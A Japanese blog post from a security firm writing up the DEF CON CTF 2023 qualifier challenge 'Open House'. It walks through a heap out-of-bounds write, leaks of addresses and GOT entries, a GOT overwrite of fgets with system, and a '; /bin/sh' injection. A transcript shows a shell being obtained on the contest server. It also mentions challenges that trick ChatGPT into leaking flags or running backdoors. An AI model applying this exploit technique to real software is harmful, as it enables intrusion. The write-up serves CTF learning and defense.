

# DEF CON CTF予選 2023 参戦記録 - Open House
グローバル技術開発部の青島 達大です。
今年もTeam Enuの一員として、DEF CON CTF予選に参加しました。



結果は651点を獲得し、31位となりました。
競技中に解けた問題は、次の通りです。


今回は、解けた問題のうち、"Open House"について紹介します。
他の問題については、他のチームメンバーにより執筆済、もしくは執筆予定となっておりますので、そちらをご覧ください。

- kkkkklik: Visual Basic 6.0で書かれたWindowsアプリのリバースエンジニアリングにより、暗号化され、隠されたフラグを探す問題です。コンサルティングサービス部の濱崎さんによる解説があります(<https://insight-jp.nttsecurity.com/post/102ifsw/def-con-ctf-qualifier-2023-kkkkklik-writeup>)
- LiveCTF: 2019年に一度だけ実施されたspeedrunっぽい、制限時間内に速く解くことを求められる問題たちです。NFLabsの市岡さんによる解説があります(<https://blog.nflabs.jp/entry/2023/06/01/132700>)
- Pawan Gupta, Praveen Gupta, Prakash Gupta: ChatGPTを騙して(プロンプトを上手く調整して)、本来は教えてくれないフラグを答えさせたり、バックドアをコンパイルさせて、実行させる問題です。チームメンバーがwriteupを執筆中ですので、お楽しみに！(公開されたら、ここにリンクを貼ります)

ちなみに、「フラグって何？」「そもそもCTFって何？」って方は、去年の私の解説記事(<https://insight-jp.nttsecurity.com/post/102hti5/def-con-ctf-2022-quals-smugglers-covewriteup>)をご覧いただくと、プレイヤーがどういう流れで取り組んでいるかわかると思います。
本ブログでは、問題の概要と解法のポイントをまとめ、実社会との関連性を意識した解説に注力します。

カテゴリーは今年も、Welcome to Quals (カテゴリー: intro)を除いて、すべて"quals" (予選)でした。
「カテゴリーとは？」という気持ちになりますが、この問題のカテゴリーは"pwn"でしょう。
つまり、プログラムが与えられて、バイナリレベルの攻撃、つまりメモリ脆弱性を突くような攻撃を仕掛けることで、問題サーバーに置いてあるフラグを入手する問題です。

## 問題の概要

問題文は以下の通りです。

> You are cordially invited to an exclusive Open House event, where dreams meet reality and possibilities abound. Join us for an unforgettable experience as we showcase a captivating array of properties, each waiting to become your dream home.
>
> Host: open-house-6dvpeatmylgze.shellweplayaga.me
>
> Port: 10001

(問題文が参考にならない例です...)
`open-house`というファイルを調べてみると、

```
open-house: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0dff6b6b6435d3c61f0159923f1758e8c9e6a1a8, for GNU/Linux 3.2.0, stripped
```

とあるので、32bitのIntel CPU上で動くLinuxアプリケーションです。
`checksec`というgefのコマンドで調べると、

```
gef➤  checksec ./open-house
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘
```

と表示されるので、機械語を直接挿入しても動かず(NX: No eXecute bit)、実行ファイル自体はランダムなアドレスにマッピングされる(PIE: Position Independent Executable)ことがわかります。
ただ、C言語の標準関数(`free`や`fprintf`等)を呼び出すために記録しておくアドレスの領域(GOT、Global Offset Table)を読み込み専用とするセキュリティ機構(RelRO: Relocation Read-Only)は無効であることも分かります。

よって例えば、`free`のアドレスを`system`のアドレスへ書き換えることにより、`free`を呼び出すときに、改ざんされたバッファの中身をコマンドとみなして、実行させることができる、と想像できます。

## プログラムの構造と脆弱性

プログラムを逆コンパイルして解析してみると、次のような機能を持っていることがわかります。

- (`c`) データを作成する: 最大で1024バイトの文字列を受け取り、エントリーとして双方向リストへ追加する
- (`v`) データを表示させる: 双方向リストを辿り、エントリーを順に表示する
- (`q`) プログラムを終了させる(今回は使わない)
- (`d`) データを削除する: 指定した番号のエントリーを双方向リストから取り除く
- (`m`) データを修正する: 最大で528バイトの文字列を受け取り、指定した番号のエントリーの中身を書き換える

1024バイトの文字列で作成(`c`)ができて、528バイトの修正(`m`)ができるのが微妙に気になるので、使っているデータ構造を特定するために、作成の逆コンパイル結果を見てみます。
説明の都合上、以下では、逆コンパイル結果のうち、関連する部分のみを添付します。

> 余談です。IDA Proを使ったのですが、逆コンパイル結果がめちゃくちゃになってました。
> 頑張ってそれっぽい結果(`*(_DWORD *)&dest[(_DWORD)(&dword_3314 - 3141)]`等)を出してくれるのですが、わかりにくいですよね。
> これは、32bitのIntel CPU上で動くPIEファイルの特徴で、自分自身のアドレスを実行時に取得しながら、動的にアドレスを計算する処理があることによるものだと思います。
>
> 
>
> このように、次の命令のアドレスへcallして、そこでリターンアドレスをpopして、`ebx`レジスターに格納しています。
> ですので以下では、私が気合いで整理した結果をお伝えします...

<!--
```c
for (dest = &unk_3164; *(dest+0x200); dest = *(dest+0x200));
*(dest+0x200) = malloc(0x208u);
*(*(dest+0x200) + 0x204) = dest;
desta = *(dest+0x200);
*(desta+0x200) = 0;
v2 = strlen(src) <= 0x200 ? strlen(src) : 0x200;
return strncpy(desta, src, v2);
```
-->


ということで、最大で0x200 (512)バイトしか書き込んでくれない(`strncpy`のサイズ `v2`)ことがわかります。
オフセット +0x200でポインターを辿るループにより、リスト構造をなしていることがわかります。
また、そのヘッド(先頭のエントリーのアドレス)は、相対アドレス 0x3164であることが分かります(`&unk_3164`)。

脆弱性がなさそうな実装に見えるので、削除の処理を見てみましょう。

<!--
```c
ptr = &unk_3164;
fputs("Which of these reviews should we delete?\n", stdout);
if (result = fgets(s, 16, stdin)) {
  v3 = strtoul(s, 0, 10);
  for ( i = 0; i != v3; ++i ) {
    v1 = *(ptr+0x200) ? *(ptr+0x200) : ptr;
    ptr = v1;
    if ( !v1[0x200] ) break;
  }
  fprintf(stdout, "Deleted entry: %s\n", ptr);
  *(*(ptr+0x204) + 0x200) = *(ptr+0x200);
  if (*(ptr+0x200)) *(*(ptr+0x200) + 0x204) = *(ptr+0x204);
  free(ptr);
}
```
-->


指定した番号(`fgets`で受け取って、`strtoul`で数値として解釈される値)に対応するエントリーを取り出すために、`for`ループを回しています。
その後のオフセット +0x200と+0x204でのポインター操作の形を見ると、双方向リストであると分かります。
(`prev`の`next`を`next`にして、`next`があれば`next`の`prev`を`prev`にする処理があります)

まとめると、データ構造は次の通りとなります。
名前は適当に私が付けました。

<!--
```c
typedef struct list_entry {
  /* +0x000 */ char buf[0x200];
  /* +0x200 */ struct list_entry *next;
  /* +0x204 */ struct list_entry *prev;
  /* +0x208 */
} list_entry_t;
```
-->


ということで、0x200バイトより先の部分へ書き込めたら、リスト構造を書き換えることができそうですね。
そうすれば、`next`をリークさせたい領域のアドレスへ書き換えて、表示コマンド経由で出力させることができます。


あとは、編集の処理を見てみましょう。

<!-- 
```c
v5 = &unk_3164;
fputs("Which of these reviews should we replace?\n", stdout);
result = fgets(s, 528, stdin);
if (result = fgets(s, 528, stdin)) {
  v3 = strtoul(s, 0, 10);
  for (i = 0; i != v3; ++i) {
    v1 = *(v5+0x80) ? *(v5+0x80) : v5;
    v5 = v1;
    if (!*(v1+0x80)) break;
  }
  fprintf(stdout, "Replacing this one: %s\n", v5);
  fputs("What do you think we should we replace it with?\n", stdout);
  return fgets(v5, 528, stdin);
}
```
-->


指定した番号に対応するデータを`for`ループで探して、最大で528バイトを書き込みます。
...え？528 (0x208)バイト??
ということは、`next`も`prev`も書き換えることができますね!!
(これは「範囲外書き込みの脆弱性」となります)

## エクスプロイトの作成

プログラムの構造と脆弱性が分かったので、あとは、エクスプロイトを組めば良いだけです。
大まかな手順は、次の通りです。

1. エントリーのアドレスをリーク
2. 実行ファイルのベースアドレスをリーク
3. GOTにある`free`と`fgets`の値をリーク
4. ステップ3でリークしたアドレスから、`system`のアドレスを計算して、シェルを起動

エクスプロイトコードは[./exploit.py](./exploit.py)に載せておきます。
具体的な攻撃手法は、そちらのコードをご参考ください。

### ステップ1: エントリーのアドレスをリーク

双方向リストのデータ構造を見ると、表示される0x200バイトの中身の直後に、`next`と`prev`のポインターがあります。
ここで、C言語において文字列は、`NULL`バイト(0x00)で終わるまでの領域を指すことを思い出しましょう。
よって、0x200バイトちょうどの文字数でエントリーを作れば、表示させるときに、`next`と`prev`の値も一緒に出力されます。

例えば、

<!--
```python
create(proc, b"A"*0x1ff+b"a") # index: 11
```
-->


のように作れば、11番目のエントリーは、

```
**** - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa`\x08\x95W0\xf4\x94W
```

と表示されます。
32bitの符号無し整数(アドレス)として解釈すれば、

```
>>> [hex(x) for x in unpack("II", b"`\x08\x95W0\xf4\x94W")]
['0x57950860', '0x5794f430']
```

となるため、`next`が`0x57950860`、`prev`が`0x5794f430`であることが分かります。
ちなみに、なぜか最初に10個のエントリーがすでにあるので、最初は11番目です。

### ステップ2: 実行ファイルのベースアドレスをリーク

11番目のエントリーの`prev`は、10番目のエントリーを指しています。
最初の10個のエントリーは開始時に決まった内容で作成されるので、1番目のアドレスを求めることができます。
実際にデバッガーで調べると、`prev`から0x1430を引いたところから、`malloc`や`free`で利用されるヒープ領域が存在することが分かります。
また、ヒープの先頭から0x3a0足したところに、1番目のエントリーの`next`と`prev`があることが分かります。

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x56599000 0x5659a000 0x00000000 r-- ./open-house
0x5659a000 0x5659b000 0x00001000 r-x ./open-house
0x5659b000 0x5659c000 0x00002000 r-- ./open-house
0x5659c000 0x5659d000 0x00003000 rw- ./open-house
0x575fa000 0x5761c000 0x00000000 rw- [heap]
...
gef➤  $ 0x575fb430-0x575fa000  # addrof(prev)(=0x575fb430) - addrof([heap])
hex32:  0x1430
gef➤  hexdump 0x575fb430 0x208 # 10th entry
0x575fb430│+0x0000:  45 73 63 61 70 65 20 74 68 65 20 68 75 73 74 6c  Escape the hustl
0x575fb440│+0x0010:  65 20 61 6e 64 20 62 75 73 74 6c 65 20 6f 66 20  e and bustle of 
...
0x575fb620│+0x01f0:  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x575fb630│+0x0200:  50 c6 5f 57 20 b2 5f 57                          P._W ._W
gef➤  telescope 0x575fb430-0x1430+0x3a0 0x8
0x575fa3a0│+0x0000: 0x575fa3b0  →  "Don't let its unassuming exterior fool you; this h[...]"
0x575fa3a4│+0x0004: 0x5659c164  →  0x00000000
gef➤  $ 0x5659c164-0x56599000  # prev-of-1st-entry - addrof(open-house)
hex32:  0x3164
```

エントリーは双方向リストを成していたので、1番目のエントリーの`prev`はリストのヘッドです。
ヘッドは相対アドレス 0x3164にありましたので、実際に上の実行例と一致しますね。
以上をまとめると、例えば、次のような手順により、実行ファイルのベースアドレスが特定できます。

1. 12番目のエントリーを編集して、`next`を、ステップ1でリークさせた`prev`の値から0x1430を引いて0x3a0を足した値に書き換えます
2. 13番目のエントリーを表示させると、1番目のエントリーの`next`と`prev`が得られるので、ステップ2の`prev`の値から0x3164を引くと、実行ファイルのベースアドレスとなります

> 余談です。次のステップ3を使えば、任意のアドレスからの読み込みが実現できますので、素直に何回か`prev`を辿り続けることができ、リストのヘッドのアドレスが得られます。
> これにより、手順は面倒になりますが、オフセットを固定で計算する手間が省け、また、より多くの環境で成立する攻撃を作れると思います。
> が、もちろん当日はもう考えたくなかった(お昼ご飯を食べる前だった)ので、固定値を計算して、送ってしまいました...
> 興味のある方はぜひ、ご自身の理解を確かめるためにも、試してみてください。

### ステップ3: GOTにある`free`と`fgets`の値をリーク

実行ファイルのベースアドレスが分かったので、GOTのアドレスも分かります。
今回は、GOTから`free`と`fgets`のアドレスをリークさせます。

まず、GOTの何番目のエントリーが`free`に対応するかは`objdump -R`を使えば調べることができます。

```
$ objdump -R ./open-house
./open-house:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
...
00003124 R_386_JUMP_SLOT   free@GLIBC_2.0
00003128 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0000312c R_386_JUMP_SLOT   signal@GLIBC_2.0
...
```

よって、相対アドレス 0x3124に`free`のエントリーが、0x3128に`fgets`のエントリーがあることが分かります。
ステップ2でリークした実行ファイルのベースアドレスに0x3124を足した値を設定すれば、`free`と`fgets`のアドレスが両方とも連続してリークできることになります。

libcにある`free`のアドレスを取得するために、一回適当なエントリー(例えば11番目)を削除しておきましょう。
GOTにあるアドレスのデフォルト値は、実行ファイル中にあるスタブ関数を指しており、libcの中にある実際の関数のアドレスではありません。
ですので、一度関数を呼び出す削除処理を実行することにより、エントリーの値が実際の関数のアドレスへ書き換えられることを利用します。
これは、RelROが無効なときのアドレス解決処理そのものとなります。
これにより、12番目以降の番号がひとつずつ小さくなることに注意しましょう。

あとは、12番目(削除前では13番目!!)のエントリーが1番目のエントリーの`next`と`prev`がある領域を指しているので(下図のA)、12番目のエントリーの最初の4バイトをGOT中のアドレスとすれば、1番目の次のエントリーがGOT中の領域を指すようになります(下図のB)。
よって、2番目のエントリーを表示させることにより、GOTエントリーの中身をリークさせることができます。
(これは「任意のアドレスからの読み込み」という攻撃が実現できたことを示します)
なお、これにより、3番目以降は辿れなくなることに注意しましょう。


<!--
```python
delete(proc, 11)  # call `free` to resolve address
modify(proc, 12, pack("I", addrof_free))
leak_libc = view(proc, 2)
hexdump(leak_libc)
addrof_free, addrof_fgets = unpack("II", leak_libc[:8])
print(f"{addrof_free=:#x}")
print(f"{addrof_fgets=:#x}")
```
-->

```
+0000:  30 b7 d6 f7 e0 2d d4 f7 10 9e d0 f7 80 1b db f7  0....-..........
+0010:  70 b4 d6 f7 a6 c0 62 56 30 c5 d1 f7 20 56 d7 f7  p.....bV0... V..
+0020:  70 4a d2 f7 e6 c0 62 56 10 56 d4 f7 10 e6 d7 f7  pJ....bV.V......
+0030:  f0 33 d4 f7                                      .3..            
+0034
addrof_free=0xf7d6b730
addrof_fgets=0xf7d42de0
```

これは競技中に、問題サーバーで実行した結果です。

> 余談です。察しの良い方はお気付きかと思いますが、削除処理は不要です。
> 代わりに、この時点で一度使われている`fgets`と(後述の通り)その次にある`signal`のアドレスをリークさせれば十分です。
> 最後に述べる通り、今回は結果的に、`free`を書き換えることなく、攻撃を成立させてますので、この処理は本質的に無駄です。
> これは、最初からずっと「`free`を書き換えて、シェルを起動させる」ことを念頭に置いていたからで、このwriteupを書くまで誤解してました(笑)

### ステップ4: シェル起動

さて、手元の環境で`system`のアドレスは調べると分かりますが、問題サーバーのlibcが配布されていません。
では、どうやって問題サーバー上で`system`のアドレスを計算すれば良いでしょうか？
リモートの`free`と`fgets`のアドレスはステップ3でリークさせたので、定番の方法として、オープンなサービス(<https://libc.rip/>や<https://libc.blukat.me/>)を使うことで解決することが多いです。
**が、当日は検索できませんでした。**
データベースに、リークしたアドレスに該当するものが存在しなかったのです。

ステップ2で固定のオフセットを使っていますし、問題サーバーでは動かないかな、と思いました。
こういうときは例えば、実行アドレスのベースアドレスで表示させてみましょう。
そうすると、ELFファイルのヘッダー `\x7fELF`が読めるはずですので、アドレスが正しく特定できているか、また読み込みができているかが確認できます。
確認の結果、やはり間違いではなさそうでした。

そこで、別の方法で、問題サーバーのlibcを推測しました。
詳細はエクスプロイトコードのコメントを参照いただきたいのですが、実行ファイル `./open-house`のコンパイルに使われたGCCのバージョンを検索します。
そうすると、対応するOSのバージョンが分かりますので、そのOSが持つlibcファイルをダウンロードすることで解決しました。
これにより、ダウンロードしたファイルに対して、`objdump -tT`コマンドを使うことで、`system`のアドレスを調べることができます。

```
$ objdump -tT ./libc/lib32/libc.so.6 | grep 'free\|fgets\|system'
0006ede0  w   DF .text  000001bc  GLIBC_2.0   fgets
00097730 g    DF .text  000000e5  GLIBC_2.0   free
00049780  w   DF .text  0000003f  GLIBC_2.0   system
```

ASLRが有効ですが、4KB整列でlibcが再配置されるので、常に下位12ビットは固定です。
問題サーバーからリークした`free`と`fgets`の下位12bitが、実際に0x730と0xde0であることは確かめておきましょう。
(実際に先ほどの競技中の結果と矛盾しませんね)

ステップ3の最後で、2番目のエントリーは`free`のGOTエントリーを指しています。
今回は、そこから4バイト飛ばして、`fgets`のアドレスを`system`へ書き換えることにより、シェル起動を実現しました。

ここには、当日サクッと解くためのコツがあります。
まず、次のコマンドを受け取るために利用している`fgets`が`system`の実行になります。
そのバッファには直前に入力したコマンド `m`が入っているので、外部コマンド `m`を実行しようしますが、失敗して返ってきます。
(問題サーバーへ接続すると標準エラー出力が切られているので、観測できませんが、手元で動かすと、"sh: 1: m: not found"等のメッセージが表示されます)
バッファはそのままなので、`m`をコマンドとして解釈すると、編集処理に移ります。

編集処理内部でも、入力を受け付けるために利用する`fgets`がすべて`system`に変わります。
よって、先ほど入力した`12`とバッファの内容(`fgets`のアドレスが含まれているもの)が残っているので、それぞれで`system`を実行してしまいます。
ここで後者の`system`を実行させるところで、シェルを起動させます。
バッファの最後(`fgets`のアドレスを書き込んだ直後)に`; /bin/sh`を追加することで、バッファの先頭にコマンドを挿入できなくとも、それ以前の部分(`free`と`fgets`のアドレスの部分)をとりあえずエラー等で処理させて、その後に、シェル(`/bin/sh`)を実行させることができます。
よって、シェル起動の目的を達成できます。

以下は、競技中の実行結果の一部です。

```
$ ./exploit.py --remote open-house-6dvpeatmylgze.shellweplayaga.me:10001
Ticket please: 
Welcome! Step right in and discover our hidden gem! You'll *love* the pool.
...
**** - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa`8\x92V0$\x92V
addrof_next=0x56923860
addrof_prev=0x56922430
addrof_heap=0x56921000
...
**** - \xb0\x13\x92Vd\xe1bV
leak_base=b'\xb0\x13\x92Vd\xe1bV'
addrof_exebase=0x5662b000
addrof_free=0x5662e124
...
addrof_free=0xf7d6b730
addrof_fgets=0xf7d42de0
addrof_system=0xf7d1d780
> ls

Replacing this one: 0\xb7\xd6\xf7\xe0-\xd4\xf7\x10\x9e\xd0\xf7\x80\x1b\xdb\xf7p\xb4\xd6\xf7\xa6\xc0bV0\xc5\xd1\xf7 V\xd7\xf7pJ\xd2\xf7\xe6\xc0bV\x10V\xd4\xf7\x10\xe6\xd7\xf7\xf03\xd4\xf7
What do you think we should we replace it with?
c|v|m|d|q> Which of these reviews should we replace?
Replacing this one: 0\xb7\xd6\xf7\x80\xd7\xd1\xf7; /bin/sh

What do you think we should we replace it with?
> challenge
flag.txt
run_challenge.sh
> cat flag.txt
> flag{AppraisalCourtyard4406n23:MMs_ifjZOT2RThBFYQqgCnwsK9mMSP3-4cXgUu2Xkc8Zpm4UTx6EguMg0ZNQ8-xiWEVkpk9jit_0LqNT42qE8w}
```

...という感じですが、細かい挙動は今、書いている段階で分かりました(笑)
当日は、とりあえず実行ファイルの一部を指してそうなアドレスを探してリークさせて(ステップ2)、GOTエントリーをリークさせて、そこに適当な値を書き込んだら、`free`以前に本当は`fgets`に相当する部分をRIPに積んでクラッシュしたので、そこに`system`を書き込んだら、上手いこと`fgets`の連鎖を抜けて、`system`を実行できた感じです。
なんで`sh`が連鎖的に失敗するんだろう...まあ、いっか、と思いました(笑)

時間がない(と当日は焦っていた＆お腹が空いていた)ので、あとは問題サーバーのlibcを特定して、フラグをサクッと取った感じです。

## 最後に

点数的にも基本的な問題だと思いますが、2時間で解けたのは、平均解答時間が13時間であることを考えると、比較的早い方だったと思います。
それでも世界で11番目ですが。

CTFっぽく半ば強引にシェル起動を達成しましたが、こういう雑な攻撃があると、普段は外部プログラムを立ち上げないプログラムがいきなり立ち上げてきたり、失敗することが多くなる、という特徴で検知できますよね。
CTFで実際に手を動かして得た攻撃の経験は、**実務においても、より高度な防御対応ができるように考える際のヒントになる**でしょう。
逆に、実際に手を動かして、コンピューターの内部動作を理解する経験がないと、日々進化する攻撃に、自分たちで対処することは不可能といえるでしょう。

ちなみに、今年もNTTグループ内でCTFに興味のある仲間を探してます。
すでに自信のある方はもちろん、そうでない方も、「自分で実際に手を動かしながら、一歩ずつステップアップしていきたい」という気持ちと行動力があれば、大歓迎です。
公式サイト(<https://team-enu.github.io/>)にある連絡先にて、お待ちしております！

また、今年はNFLabsさんで採用されたインターン生にご協力いただきました。
インターン生の皆さんの感想は、<https://blog.nflabs.jp/entry/2023/06/07/130000>からご覧いただけます。
また、その活躍ぶりについては、冒頭のリンクからご覧ください。
会場設営やノートの作成に限らず、技術的にも幅広い問題で貢献いただき、とても助かりました。
こんな感じで、学生さんも交えて、セキュリティの技術を磨く取り組みを今後も続けて参ります。
学生の皆さんも興味あれば、ぜひご連絡ください!!

## 余談

最後に、運営が終了後に問題のソースコードを公開してくれるのですが(<https://github.com/Nautilus-Institute/quals-2023/tree/main/open-house>)、そのREADME.mdに次の一文があります。

> The solution doesn't require having libc on-hand, so we only distribute the binary itself.

え？ ~~よし、見なかったことにしておこう~~
もし興味ある方は、`system`のアドレスを推測する過程を利用せずに、問題が解けるか挑戦してみてください。
(ヒント: `_dl_runtime_resolve` 私はこっちの方が面倒だと思いますし、苦手です...)
